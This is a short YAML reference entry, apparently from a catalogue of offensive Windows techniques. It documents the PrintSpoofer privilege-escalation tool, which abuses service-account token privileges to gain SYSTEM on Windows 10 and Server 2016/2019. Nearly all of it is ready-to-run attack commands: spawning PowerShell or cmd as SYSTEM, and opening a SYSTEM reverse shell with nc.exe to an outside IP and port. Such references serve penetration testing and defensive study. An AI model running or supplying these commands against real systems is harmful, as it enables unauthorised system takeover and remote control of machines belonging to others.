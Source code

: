 ```yaml
---
functions:
  privilege-escalation:
    - description: Leverage a service account with impersonatetoken and assignprimarytoken to get system on Windows 10 and Server 2016/2019
      code: |
        Run PowerShell as SYSTEM in the current console
          PrintSpoofer.exe -i -c powershell.exe
        Spawn a SYSTEM command prompt on the desktop of the session 1
          PrintSpoofer.exe -d 1 -c cmd.exe
        Get a SYSTEM reverse shell
          PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
resources: |
  https://github.com/itm4n/PrintSpoofer
---
```

